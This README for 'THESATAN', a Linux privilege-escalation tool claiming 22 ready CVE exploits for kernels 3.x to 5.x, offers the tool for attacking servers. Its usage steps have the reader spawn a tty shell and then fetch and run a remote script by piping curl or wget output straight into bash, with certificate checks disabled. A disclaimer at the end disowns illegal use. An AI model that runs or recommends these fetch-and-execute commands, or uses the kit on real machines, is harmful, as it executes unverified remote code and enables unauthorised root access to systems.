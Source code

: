 ***☣THESATAN - Automation Privilage Escalation for Linux.***
> This tool made for testing a Privilage Escalation on server.

- 22 CVE Ready For Testing.
- Available for kernel 3.x.x / 4.x.x / 5.x.x
- Work with python2.7 / python3+ also gcc installed on the machine.

**Usage:**
- Spawn A tty Shell In Terminal.
- You must find accessible directory without 'permission denied', then create your own folder.
- **Note: ❌Don't run THESATAN in public access or you will destroy yourself!**

**UPDATE**
```bash
# From github
bash -c "$(curl -fsSLk https://raw.githubusercontent.com/warmode666/thesatan/main/x)"
```

```bash
# From github
bash -c "$(wget --no-check-certificate -qO- https://raw.githubusercontent.com/warmode666/thesatan/main/x)"
```

***- Wait until THESATAN done.***

> [*] I am not responsible if you are doing something illegal using this program! 

[![THESATAN](https://i.ibb.co/8r23mBK/download.png "THESATAN")](https://i.ibb.co/8r23mBK/download.png "THESATAN")

[![SATAN](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")](https://i.ibb.co/q7xcwwt/download-1.png "SATAN")
